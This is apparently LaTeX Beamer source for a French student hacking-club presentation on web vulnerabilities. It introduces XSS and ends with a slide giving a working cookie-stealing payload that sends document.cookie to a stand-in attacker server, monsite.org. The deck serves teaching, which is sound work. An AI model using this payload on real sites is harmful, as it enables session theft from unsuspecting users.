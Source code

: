 \documentclass{beamer}
\title[Failles Web]{H4ck 1n TN}
\subtitle{Failles Web}
\author[H4ck1nTN]{Valentin STERN}
\institute[HiT]{Ceten -- TELECOM Nancy}
\date{\today}
\begin{document}
\begin{frame}
\titlepage
\end{frame}

\begin{frame}{D'où viennent les failles?}
	\begin{itemize}
		\item Du serveur en général
		\item Surtout en PHP car c'est le langage le plus utilisé
		\item Pas développé de manière sécurisé au départ
	\end{itemize}
\end{frame}

\begin{frame}{Les failles vues dans cette présentation}
	\begin{itemize}
		\item Faille XSS
		\item CSRF
		\item File Inclusion
		\item CRLF
	\end{itemize}
\end{frame}

\begin{frame}{Faille XSS}
	\begin{itemize}
		\item Utilisée en général pour voler des cookies
		\item Pour rediriger vers des pubs
		\item Embêter les utilisateurs
	\end{itemize}
\end{frame}

\begin{frame}{Son fonctionnement}
	\begin{itemize}
		\item Nécessite un formulaire qui réaffiche les données entrées
		\item Permet d'éxécuter du javascript sur le client d'autres personnes
		\item Par exemple : <script>alert('Hello')</script>
	\end{itemize}
\end{frame}

\begin{frame}{Comment voler les cookies ?}
	\begin{itemize}
		\item Contenus dans document.cookie
		\item Nécessite un serveur, avec un fichier enregistrant ce qu'on lui envoie
		\item <script>window.location.replace('http://monsite.org/index.php?c=' + document.cookie.toString())</script>
	\end{itemize}
\end{frame}
\end{document}
